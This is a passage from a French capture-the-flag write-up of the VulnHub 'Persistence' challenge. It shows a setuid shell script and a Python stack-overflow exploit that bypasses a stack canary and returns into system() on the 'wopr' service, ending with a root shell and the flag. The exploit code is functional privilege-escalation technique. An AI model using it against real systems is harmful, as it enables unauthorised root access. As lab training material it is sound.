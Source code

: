 et j'ai créé le script shell */tmp/log* suivant (ne pas oublier de le rendre exécutable) :  

```bash
#!/bin/bash
chown root.root /tmp/getroot
chmod u+s /tmp/getroot
```

Voici l'exploit final :  

```python
import socket
import struct

canary = 0xd517b777

s = socket.socket()
s.connect(("127.0.0.1", 3333))
s.recv(1024)

buff  = "A" * 30
buff += struct.pack("I", canary)
buff += "Z" * 4 # saved-ebp
buff += struct.pack("I", 0x0016c210) # adresse de system
buff += "A" * 4 # garbage
buff += struct.pack("I", 0x08048c60) # adresse de /tmp/log

s.send(buff)
s.recv(2014)
s.close()
```

Une fois exécuté, le processus *wopr* exécute */tmp/log* via *system()* ce qui rend notre binaire *getroot* setuid root et nous ouvre la porte :)  

```plain
bash-4.1# cat flag.txt
              .d8888b.  .d8888b. 888
             d88P  Y88bd88P  Y88b888
             888    888888    888888
888  888  888888    888888    888888888
888  888  888888    888888    888888
888  888  888888    888888    888888
Y88b 888 d88PY88b  d88PY88b  d88PY88b.
 "Y8888888P"  "Y8888P"  "Y8888P"  "Y888

Congratulations!!! You have the flag!

We had a great time coming up with the
challenges for this boot2root, and we
hope that you enjoyed overcoming them.

Special thanks goes out to @VulnHub for
hosting Persistence for us, and to
@recrudesce for testing and providing
valuable feedback!

Until next time,
      sagi- & superkojiman
```


*Published October 06 2014 at 08 12*